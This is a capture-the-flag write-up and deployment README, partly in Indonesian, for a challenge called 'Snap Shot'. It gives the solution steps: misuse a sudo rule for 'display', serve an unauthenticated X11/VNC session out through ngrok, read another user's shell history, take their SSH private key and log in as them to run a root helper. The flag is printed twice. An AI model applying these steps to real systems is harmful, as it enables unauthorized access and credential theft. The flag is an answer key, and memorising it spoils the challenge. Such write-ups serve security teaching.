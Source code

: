 ## Judul Soal
Snap Shot

## Deskripsi Soal

> I was told by my someone that he bought me a gift. Unfortunately, I need to have a proper access to grab it <br><br>`nc port 22222`<br><br>Note: The service used Paramiko SSH module instead of traditional SSH prompt

---
## Proof of Concept

- Log in using CTFd account to get access to remote server
- By checking user privileges, we found that we can execute `display` as `joints` user
    ```sh
    $ sudo -l
    User user may run the following commands on 76a6f93ed1a9:
        (joints) NOPASSWD: /usr/bin/display
    ```
- Since there're no X11 Display, we need to create ones. Note, since it's using `paramiko` the `&` character may not work as expected. Fortunately, the command still executed
    ```sh
    $ Xvfb :4000 -listen tcp -ac -screen 0 512x512x24 &
    ```
- Since `display` only accept image binary, we need to download an image to the server
    ```sh
    $ wget -O test.png https://www.google.com/images/branding/googlelogo/1x/googlelogo_color_272x92dp.png
    ```
- Execute `display` on `test.png` using `:4000` as virtual X11 display & `joints` user. These step can also be replaced by using an external remote display from a Public IP
    ```sh
    $ DISPLAY=:4000 sudo -u joints display &
    ```
- Forward X11 display as VNC traffic
    ```sh
    $ x11vnc -display :4000 -bg -forever -nopw -quiet -listen localhost -xkb
    ```
- Then, simply forward VNC traffic to Public IP using `ngrok` or `SSH Forward`
- Connect to VNC remote server & using `File` prompt, go to `/home/joints/.ash_history` that contains a history of `id_rsa` being downloaded. There's also an `id_rsa` on `/home/joints/.ssh/id_rsa` but it can't be copy-paste-ed
- Download `id_rsa` from the external link & remote ssh as `joints` user from `localhost`. If we check the privileges again we found that `joints` user has privileges to execute `/root/get_flag`
    ```sh
    $ ssh -o "StrictHostKeyChecking no" -p 2222 -i id_rsa joints@localhost sudo -l

    User joints may run the following commands on 76a6f93ed1a9:
        (root) NOPASSWD: /root/get_flag
    ```
- Finally, just execute `/root/get_flag` using `joints` user
    ```sh
    $ ssh -o "StrictHostKeyChecking no" -p 2222 -i id_rsa joints@localhost sudo /root/get_flag

    JOINTS21{forw4rding_x11_traffics_4re_k1nda_fun_e1683a}
    ```
---

## Catatan deployment

Konfigurasi `docker` ada di directory `server`. Ganti `port` & limit mem-cpu sesuai kebutuhan.

Note, service nya masih hasil `trial & error`, jadi kemungkinan bisa broken sewaktu2 :'v

```sh
# Build
$ docker-compose build

# Deploy, kalo kena notif connection pool, run lagi :v
$ COMPOSE_PARALLEL_LIMIT=100 docker-compose --compatibility up -d
```

## Flag
JOINTS21{forw4rding_x11_traffics_4re_k1nda_fun_e1683a}